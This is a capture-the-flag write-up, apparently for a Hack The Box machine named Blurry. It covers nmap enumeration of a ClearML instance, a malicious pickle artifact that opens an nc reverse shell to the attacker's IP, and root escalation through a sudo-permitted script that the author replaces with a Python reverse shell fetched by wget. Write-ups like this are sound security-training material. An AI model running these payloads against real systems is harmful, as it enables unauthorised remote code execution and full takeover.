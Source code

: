 # export ip=`10.10.11.19`

# Date 13-05-24 || Rohit Tiwari

# Nmap_Scan

```<>
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  tcpwrapped
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
```

# Sytem info
- Nginx 1.18.0 {Server}
- OS maybe linux version and distribution unknown
# Port 80
- [x] fuzzing  not need
- [x] source code
- [x] manual enumeration
- [x] `robots.txt` (not available)
- [x] subdomain find

> On interacting with port 80 found

![](Attachments/Pasted%20image%2020240614000853.png)

Found a login page of clearmL

![](Attachments/Pasted%20image%2020240614001118.png)

> On researching about found 
![](Attachments/Pasted%20image%2020240614001355.png)
> okay so on searching about ClearML vulnerability on goggle found some vul as pickle on load vulnerability which can cause to run arbitary code on machine


> Okay so add every host to /etc/hosts

### Initial foothold

> Tried googling about clearml exploit found some  rce tried but no luck then found one explloit that wokks

```<>
import os
from clearml import Task
import base64
import time

task = Task.init(project_name='Black Swan', task_name='Generate and Upload Pickle', tags=["review"], task_type=Task.TaskTypes.data_processing)

class Pickle:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.72 7070 >/tmp/f"
        return os.system, (cmd,)

rng_name = base64.b64encode(str(time.time()).encode()).decode()
task.upload_artifact(name=rng_name, artifact_object=Pickle())

task.execute_remotely(queue_name='default')
```
>Break down of code
```
The line rng_name = base64.b64encode(str(time.time()).encode()).decode() is a compound operation that creates a unique name by encoding the current time in base64. Here is a detailed breakdown of each step:

time.time():

This function call retrieves the current time in seconds since the epoch (January 1, 1970, 00:00:00 UTC) as a floating-point number.
Example output: 1686755817.4592237.
str(time.time()):

Converts the floating-point number representing the current time to a string.
Example output: "1686755817.4592237".
.encode():

Encodes the string into bytes using UTF-8 encoding.
Example output: b'1686755817.4592237'.
base64.b64encode(...):

Encodes the byte string using Base64 encoding, which is used to represent binary data in an ASCII string format.
Example output: b'MTY4Njc1NTgxNy40NTkyMjM3'.
.decode():

Decodes the Base64-encoded byte string back into a regular string.
Example output: "MTY4Njc1NTgxNy40NTkyMjM3".
Purpose
The purpose of this compound operation is to generate a unique, human-readable string based on the current time, encoded in a way that ensures it is URL-safe and filesystem-safe. This is useful for creating unique identifiers, filenames, or artifact names that are unlikely to collide with others.
```

>summuary this rng is used to createa artifcate name that is unique and it uses date and time to uniquely avoids naming conflicts



Got a shell
![](Attachments/Pasted%20image%2020240614141351.png)


> Then stable the shell

# Got root

![](Attachments/Pasted%20image%2020240614142731.png)

Steps to get root

```
jippity@blurry:/models$ sudo -l
```

> Then check the ooutput

```bash
atching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

> from this got to know that user can run evaluate_model.py as root

>so created a evaluate_model.py script with revershell and upload it to /models/evaluate_model.py
>

```
vi evaluate_model.py
```

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.72", 2929))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
import pty
pty.spawn("sh")
```

```
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.19 - - [14/Jun/2024 14:26:36] "GET /evaluate_model.py HTTP/1.1" 200 -
```

```
jippity@blurry:/models$ wget  http://10.10.16.72:80/evaluate_model.py .
--2024-06-14 04:56:35--  http://10.10.16.72/evaluate_model.py
Connecting to 10.10.16.72:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 226 [text/x-python]
Saving to: ‘evaluate_model.py’

evaluate_model.py   100%[===================>]     226  --.-KB/s    in 0s      

2024-06-14 04:56:37 (26.8 MB/s) - ‘evaluate_model.py’ saved [226/226]
```
>on attacker machine
```
nc -lnvp 2929
```

>on target machine

```
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/*.pth
[+] Model /models/demo_model.pth is considered safe. Processing...
```


Got shell

```
listening on [any] 2929 ...
connect to [10.10.16.72] from (UNKNOWN) [10.10.11.19] 59196
# id
id
uid=0(root) gid=0(root) groups=0(root)
#
```


Payload was used from https://www.revshells.com/

![](Attachments/Pasted%20image%2020240614143814.png)

